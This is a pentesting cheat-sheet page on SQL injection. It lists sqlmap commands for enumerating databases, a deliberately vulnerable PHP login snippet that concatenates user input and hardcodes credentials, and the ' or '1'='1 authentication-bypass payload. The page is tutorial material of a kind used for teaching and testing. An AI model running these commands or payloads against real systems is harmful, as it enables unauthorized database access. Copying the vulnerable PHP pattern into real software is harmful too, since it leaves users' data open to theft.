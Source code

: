 # SQL-Injections

## Tldr

```text
# Post
./sqlmap.py -r request.txt -p username --risk=3 --level=5
sqlmap -u 'http://192.168.1.101:1337/index.php' --forms --dbs --risk=3 --level=5 --threads=4 --batch

# Get
sqlmap -u "http://192.168.1.101/index.php?id=1" --dbms=mysql

# Crawl
sqlmap -u http://192.168.1.101 --dbms=mysql --crawl=3

# SQL injection detection
Try to put just a ' in login field and a ' in password field and check if an error message is displayed
```

## How does sql-injections work?

So we have a website that is written in php. We have a login functionality, where the code looks like this:

```php
mysql_connect("localhost", "pelle", "mySecretPassowrd") or die(mysql_error());

mysql_select_db("myHomepage");

if ($_POST['uname'] != ""){
    $username = $_POST['username'];
    $password = $_POST['password'];
    $query = "SELECT * FROM users WHERE username = '$username' AND password='$password'";
    $result = mysql_query($query);
    $row = mysql_fetch_array($result);
}
```

So the user input is not filtered or sanitized in any way. Which means that what the users puts in in the login-form will be executed my mysql. So just like in xss-injections we just try to escape the input field to be able to execute sql-commands. So if we input the following into the user-field and password-field in the login:

```text
whatever' or '1'='1
whatever' or '1'='1
```

The query will look like this:

```text
$query = "SELECT * FROM users WHERE username = 'whatever' OR '1'='1' AND password='whatever' OR '1'='1'";
```
